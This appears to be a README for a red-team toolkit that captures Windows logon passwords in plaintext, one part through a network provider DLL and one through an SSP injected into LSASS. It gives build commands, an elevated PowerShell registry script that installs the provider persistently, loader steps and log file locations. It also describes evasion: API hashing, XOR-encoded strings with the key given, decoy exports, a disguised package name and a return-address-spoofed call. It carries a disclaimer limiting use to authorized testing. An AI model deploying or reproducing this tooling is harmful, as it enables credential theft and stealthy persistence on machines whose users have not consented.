

# Windows Credential Providers Experiments

Research and authorized-assessment tooling that demonstrates two classic Windows authentication hooking paths:

1. **Network Provider DLL** (MPR / `NPLogonNotify`) — runs in the logon process
2. **LSA Security Support Provider (SSP)** — loaded into `lsass.exe` via `AddSecurityPackageA`

A small **SSP loader** executable registers the SSP DLL at runtime.

> **Use only on systems you own or have explicit written permission to test.**  
> Loading custom code into LSASS or intercepting credentials can crash the system, violate policy, and may be illegal without authorization.

---

## Repository layout

```
providerexperiments/
├── README.md
├── LICENSE
├── securityaddon/
│   ├── SecurityAddon.sln
│   └── SecurityAddon/              → SecurityAddon.dll (SSP)
├── testingProvider/
│   └── TestingProvider/            → TestingProvider.c + TestingProvider.def only
└── LoadingofSSPClassic/
    ├── LoadingofSSPClassic.sln
    └── LoadingofSSPClassic/        → LoadingofSSPClassic.exe (SSP loader)
```

| Component | Build | Output |
|-----------|-------|--------|
| SSP DLL | `securityaddon/SecurityAddon.sln` (VS 2022, Release x64) | `SecurityAddon.dll` |
| Network provider | `cl` + `.def` — **no Visual Studio project** | `TestingProvider.dll` |
| SSP loader | `LoadingofSSPClassic/LoadingofSSPClassic.sln` (VS 2022, Release x64) | `LoadingofSSPClassic.exe` |

---

## Overview



| Piece | Role | MITRE |
|-------|------|-------|
| `TestingProvider.dll` | MPR network provider; hooks interactive logon | T1556.008 |
| `SecurityAddon.dll` | LSA SSP; receives credentials inside LSASS | T1547.005 |
| `LoadingofSSPClassic.exe` | User-mode loader; calls `AddSecurityPackageA` | — |

The **network provider** and **SSP** are independent. You can deploy either or both. The loader is only needed for the SSP path.

---

## 1. Network Provider — `TestingProvider`

**Source only:** `testingProvider/TestingProvider/`

| File | Purpose |
|------|---------|
| `TestingProvider.c` | All code (NP exports, API hashing, logging) |
| `TestingProvider.def` | Export table aliases for decoy WinAPI names |

No `.h` files and no Visual Studio project — just these two files plus the SDK at build time.

### What it does

- Registers as a **Multiple Provider Router (MPR)** network provider.
- Implements `NPLogonNotify` and writes username/password from `MSV1_0_INTERACTIVE_LOGON` to:
  - `C:\Windows\Tasks\temp40.txt`
- Resolves `kernel32` APIs at runtime via **DJB2 hashing** (no plain API name strings in `.rdata`).
- Calls a random subset of resolved APIs on each logon (benign jitter).
- Exports a plausible NP surface (`NPGetCaps`, `NPAddConnection`, …) plus **decoy WinAPI-named stubs** in the export table (`.def` forwards).

> Do **not** `#include <npapi.h>` — signatures conflict with the local implementations. `Windows.h` already provides `WN_*` return codes via `winnetwk.h`.

### Build

From an **x64 Native Tools Command Prompt for VS**:

```bat
cd testingProvider\TestingProvider
cl /nologo /O2 /LD TestingProvider.c /link /DEF:TestingProvider.def Mpr.lib /OUT:TestingProvider.dll
```

Output: `TestingProvider.dll` in the same folder.

### Install (registry)

Copy the DLL to System32 (or another path and update `ProviderPath`):

```bat
copy TestingProvider.dll %SystemRoot%\System32\TestingProvider.dll
```

PowerShell (run elevated):

```powershell
$NetworkProviderName = "TestingProvider"

New-Item -Path "HKLM:\SYSTEM\CurrentControlSet\Services\$NetworkProviderName" -Force
New-Item -Path "HKLM:\SYSTEM\CurrentControlSet\Services\$NetworkProviderName\NetworkProvider" -Force
New-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\$NetworkProviderName\NetworkProvider" -Name "Class" -Value 2 -Force
New-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\$NetworkProviderName\NetworkProvider" -Name "Name" -Value $NetworkProviderName -Force
New-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\$NetworkProviderName\NetworkProvider" -Name "ProviderPath" -PropertyType ExpandString -Value "%SystemRoot%\System32\$NetworkProviderName.dll" -Force

$order = (Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\NetworkProvider\Order" -Name ProviderOrder).ProviderOrder
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\NetworkProvider\Order" -Name ProviderOrder -Value "$order,$NetworkProviderName"
```

Reboot or restart the Workstation service for the provider to load on logon.

### Uninstall

Remove the provider from `ProviderOrder`, delete the service key, and remove the DLL from `%SystemRoot%\System32\`.

---

## 2. SSP DLL — `SecurityAddon`

**Project:** `securityaddon/SecurityAddon.sln` (Visual Studio 2022, **Release | x64**)

### What it does

- Exports `SpLsaModeInitialize` (required LSA SSP entry).
- Package name reported to LSA: **Company Log Module** (`SpGetInfo`).
- `SpAcceptCredentials` logs `account@domain:password` to:
  - `c:\windows\Temp\logged-pw.txt`
- Uses **LSA heap** (`AllocateLsaHeap` / `FreeLsaHeap`) — no CRT/STL inside callbacks.
- Copies `UNICODE_STRING` fields by **Length** (not null-terminated assumptions).
- **30 WinAPI `_exp` decoy exports** (export-table padding only; not called from LSA callbacks).
- Module definition: `SecurityAddon.def` (keeps exports under `/OPT:REF`).

Open `securityaddon/SecurityAddon.sln` → **Release | x64** → Build.

Output: `securityaddon/SecurityAddon/x64/Release/SecurityAddon.dll`

```bat
dumpbin /exports SecurityAddon.dll
```

Expect **31 exports**: `SpLsaModeInitialize` + 30 `*_exp` functions.

### Deploy before loading

The loader expects the SSP at:

```
C:\Temp\SecurityAddon.dll
```

```bat
mkdir C:\Temp 2>nul
copy securityaddon\SecurityAddon\x64\Release\SecurityAddon.dll C:\Temp\SecurityAddon.dll
```

Or change the XOR-encoded path in the loader (`pathkatze[]` in `LoadingofSSP.cpp`).

> **Warning:** A bad SSP DLL can crash **LSASS** and force a reboot. Test on a VM snapshot first.

---

## 3. SSP Loader — `LoadingofSSPClassic`

**Project:** `LoadingofSSPClassic/LoadingofSSPClassic.sln` (Visual Studio 2022, **Release | x64**)

### What the loader does

1. Optional benign noise (`keineaufruhr` loops, WinAPI `_exp` export wrappers).
2. Decodes XOR-embedded strings (`doTheMath3G`, key `{ 0x67, 0xDD, 0xFE }`):
   - SSP path → `C:\Temp\SecurityAddon.dll`
   - Module name → `sspicli.dll` (reference only; active path uses PEB hash lookup)
3. Resolves **ntdll**, **kernel32**, **sspicli.dll** via **Jenkins hash** (`GMH` / `GPAH`).
4. Finds `call r12` gadget in ntdll (`\x41\xFF\xD4`).
5. Invokes `AddSecurityPackageA` through **`ChangeRetAddress`** (`patching.asm`) — return-address spoofed call.

Open `LoadingofSSPClassic/LoadingofSSPClassic.sln` → **Release | x64** → Build.

Output: `LoadingofSSPClassic/LoadingofSSPClassic/x64/Release/LoadingofSSPClassic.exe`

### Run

```bat
LoadingofSSPClassic.exe
```

Run elevated if required. The loader expects `sspicli.dll` to already be mapped (normally true when `Secur32.lib` is linked). On success, `AddSecurityPackageA` registers the SSP into LSASS.

After loading, trigger an interactive logon and check `c:\windows\Temp\logged-pw.txt`.

### Changing the SSP path

Edit `pathkatze[]` in `LoadingofSSPClassic/LoadingofSSPClassic/LoadingofSSP.cpp`.  
Re-encode with 3-byte rolling XOR (`0x67`, `0xDD`, `0xFE`).

---

## End-to-end SSP workflow

1. Build `SecurityAddon.dll` (Release x64).
2. Copy to `C:\Temp\SecurityAddon.dll`.
3. Build and run `LoadingofSSPClassic.exe`.
4. Log on interactively (or unlock).
5. Read `c:\windows\Temp\logged-pw.txt`.

SSP registration is **volatile** — it does not survive LSASS restart/reboot the way a registry-installed SSP package would.

---

## End-to-end network provider workflow

1. Build `TestingProvider.dll` (`TestingProvider.c` + `TestingProvider.def`).
2. Install registry keys (see above).
3. Reboot or restart services.
4. Interactive logon → check `C:\Windows\Tasks\temp40.txt`.

---

## Troubleshooting

| Symptom | Likely cause |
|---------|----------------|
| LSASS crash / forced reboot | SSP bug (bad `UNICODE_STRING` handling, CRT in callbacks, etc.) |
| `sspicli.dll not loaded` | Process has no SSPI imports; load `sspicli.dll` explicitly or call `InitSecurityInterfaceA()` |
| No SSP log file | Package not registered, wrong DLL path, or no logon event yet |
| No NP log file | Provider not in `ProviderOrder`, wrong architecture (must be x64), or not an interactive logon |
| C2375 on `NPGetCaps` etc. | `#include <npapi.h>` — remove it; use local constants only |

**Event Viewer:** Application log → filter `lsass.exe` / faulting module for SSP crashes.

---

## Requirements

- Windows 10/11 x64
- Visual Studio 2022 with **Desktop development with C++** and **MASM** (SSP projects)
- Windows SDK
- **x64 Native Tools Command Prompt** (network provider `cl` build)

---

## License / disclaimer

For **authorized security research and red-team assessments** only. The authors are not responsible for misuse. Ensure you comply with local laws and engagement rules before deploying any component.
